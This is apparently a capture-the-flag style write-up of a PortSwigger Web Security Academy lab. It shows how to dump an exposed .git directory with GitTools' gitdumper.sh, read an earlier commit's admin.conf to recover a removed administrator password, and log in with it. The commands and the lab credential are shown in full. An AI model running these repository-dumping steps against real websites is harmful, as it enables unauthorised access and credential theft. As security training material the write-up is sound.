

- First we need to go to the /.git endpoint
- Then we need to download it
- dump the .git to see the folders
```bash
─$ git clone https://github.com/internetwache/GitTools.git  
cd GitTools/Dumper

mkdir -p ../../dumped-repo
./gitdumper.sh "https://0a3f0051049cbf9288b66004007e001b.web-security-academy.net/.git/" ../../dumped-repo

```


- check existing commits
```bash

┌──(kali㉿kali)-[~/portSwigger/dumped-repo]
└─$ git log --oneline --decorate --graph --all --max-count=50

* 4fdacb7 (HEAD -> master) Remove admin password from config
* e7ff9de Add skeleton admin panel
                            
```


- Show files before changes
```bash
                                                                                                                   
┌──(kali㉿kali)-[~/portSwigger/dumped-repo]
└─$ git show e7ff9de:admin.conf                              
git show e7ff9de:admin_panel.php


```



- Go to My account, and use the credential: 
  - administrator
  - the extracted password: i1jvm8p1a6nyhc88hp4c